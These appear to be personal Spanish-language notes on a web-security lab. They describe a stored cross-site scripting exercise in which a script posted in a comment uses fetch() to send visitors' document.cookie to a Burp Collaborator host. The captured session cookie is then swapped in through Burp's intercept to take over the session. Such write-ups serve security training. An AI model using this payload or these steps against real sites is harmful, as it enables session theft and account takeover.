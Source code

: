 ![[Pasted image 20220831185459.png]]



%script%
fetch('https://3x1f2d74qt267bthk7qy5l8ax13srh.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
%script%

notese que es https

en un comentario pego el payload:

![[Pasted image 20220831190851.png]]


![[Pasted image 20220831190553.png]]

pongo en poll el burp collaborator:

![[Pasted image 20220831191011.png]]

el request HTTP lo selecciono y encuentro una cookie:
dqmX9OGr11BKBns4svg2kVft9YTmok8V

activo el intercept y me regreso al home, hago click en un link y analizo la traza:

![[Pasted image 20220831191305.png]]

![[Pasted image 20220831191352.png]]

sustituyo la cookie

![[Pasted image 20220831191430.png]]

forward a todo:

![[Pasted image 20220831191612.png]]



